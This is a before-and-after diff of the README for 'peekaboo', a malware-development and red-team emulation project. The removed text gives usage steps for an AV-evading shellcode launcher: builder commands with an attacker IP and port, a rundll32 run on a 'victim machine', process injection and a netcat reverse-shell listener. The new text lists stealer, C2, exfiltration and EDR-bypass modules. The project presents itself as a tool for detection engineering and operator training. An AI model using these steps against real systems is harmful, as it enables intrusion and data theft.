

Before and after one commit to cocomelonc/peekaboo, a Markdown page: README.md, the part around one of its changes. Shown at 87% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -1,55 +1,33 @@
 # Peekaboo
 
-Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.
+Peekaboo is a modular framework designed to safely emulate malware behavior. It allows security researchers, red teamers, and blue teamers to reproduce complex threat scenarios - including Command & Control (C2) communication, persistence mechanisms, and lateral movement - without using destructive payloads.
 
-## Main logic
+**The goal of Peekaboo is to accelerate detection engineering and operator training by providing predictable, reproducible, and safe threat artifacts.**
 
-XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.
+## key features (how it works?)
 
-## Usage
-## 1. DLL
-### on attacker machine
+- malware **source code template** - build a payload/stealer from templates (select C2 channel & data collection modules).
+- **payload generator** - automated generation of C/C++ based payloads with built-in obfuscation (API hashing, string encryption).
+- **AV/EDR bypass** - encryption/encoding (syscalls)
+- **multi-channel C2** - support for various covert channels:
+    - standard HTTP/S
+    - GitHub (abusing Issues/Commits)
+    - Telegram & Discord Webhooks
+    - TODO: adding all channels from one of [my recent research](https://www.youtube.com/watch?v=l2G2TZvzj0E)
+- **exfiltration** - staged exfil to controlled endpoints (Github/Discord/Slack/VirusTotal message).
+- **evasive persistence** - modular implementation of Windows (Linux, MacOS) persistence (LaunchAgents, Registry Run Keys, etc.).
+- **lightweight dashboard** - a python-based C2 backend and dashboard for real-time monitoring of active "beacons".
+- **safe by design:** Focuses on telemetry generation (process creation, network connections) rather than actual system damage.
 
-check your IP:
-```bash
-ip a
-```
+## architecture
 
-![attacker machine IP](./screenshots/2022-04-24_13-05.png?raw=true)
+Peekaboo consists of 5 main components:
+First **malware** module - highly portable C/C++ code designed to build specific "behaviors" (for final agent binary) on the target system.
+1. **crypto (malware, agent)** - build-in payload encryption/decryption logic constructor for agents.
+2. **injection (malware, agent)** - build-in injection logic constructor for agents.
+3. **persistence (malware, agent)** - build-in persistence logic constructor for agents.
+4. **stealer (malware, agent)** - stealer logic.
 
-run python script with flags:
-```bash
-python3 peekaboo.py -l 192.168.56.1 -p 4444 --build 1
-```
+Second, **payloads** module - build-in payloads.
+5. **payloads** - for simplicity, just messagebox and reverse shell.
 
-![run python script](./screenshots/2022-04-24_13-08.png?raw=true)
-
-### then on victim machine (windows 10 x64):
-run on powershell or cmd promt:
-```cmd
-rundll32 .\peekaboo.dll, lCiSdbvIAaeZLHFfkUhEcbOy
-```
-
-![run on victim machine](./screenshots/2022-04-24_13-11.png?raw=true)
-
-### check on attacker machine:
-check your netcat listener:
-
-![check netcat listener](./screenshots/2022-04-24_13-12.png?raw=true)
-
-![check IP address](./screenshots/2022-04-24_13-13.png?raw=true)
-
-## 2.Injector
-### on attacker machine:
-check attacker ip:
-```bash
-ip a
-```
-
-![check IP](./screenshots/2022-04-24_13-05.png?raw=true)
-
-run python script on linux (for example process `mspaint.exe`):
-```bash
-python3 peekaboo.py -l 192.168.56.1 -p 4444 -e mspaint.exe --build 2
-```
-
````
Also changed, not shown: other parts of README.md (+1 -49 lines).
